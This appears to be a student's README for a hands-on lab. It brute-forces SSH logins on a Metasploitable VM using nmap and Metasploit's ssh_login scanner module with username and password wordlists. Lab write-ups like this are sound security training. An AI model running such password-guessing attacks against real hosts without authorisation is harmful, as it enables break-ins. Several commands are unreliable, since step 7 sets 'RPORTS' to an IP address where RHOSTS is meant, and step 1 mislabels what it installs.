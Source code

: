 ##### Bruteforce-demo

##### _This hands on lab was worked on to display my current knowledge and put it into practical by stimulating a real world brute force attack and understanding how it works from a hackers point of view. As a pen tester expliotation is the next step after information garthering._

---

##### Tools Used
- Nmap
- Kali
- Metaspliotable OS
- msfconsole
---

##### Steps

##### 1. install metaspliotable on your kali

```bash
sudo apt update
sudo apt install metasploit-framework -y
```
---

##### 2. Access msfconsole

```bash
msfconsole
```
---

##### 3. Run basic nmap command to view open ports

```bash
nmap 192.168.1.4
```
My port 22/tcp (ssh) is opened so we would be exploiting that.

---

##### 4. Access scan ssh on msfconsole

```bash
msf > search ssh
```
---

##### 5. Access the auxiliary Scanner for ssh

```bash
msf > use auxiliary/scanner/ssh/ssh_login
```
---

##### 6. Search Options to understand the requirements and set them up

```bash
msf > show options
```
---

##### 7. Set the PASS_FILE, USER_FILE, RHOSTS, BRUTEFORCE_SPEED AND VERBOSE, as communicated under options

```bash
msf > set RPORTS 192.168.1.4
msf > set VERBOSE true
msf > set USER_FILE "file path/text file"
msf > set PASS_FILE "file path/text file"
```
#### Then run

```bash
msf > run
```
---

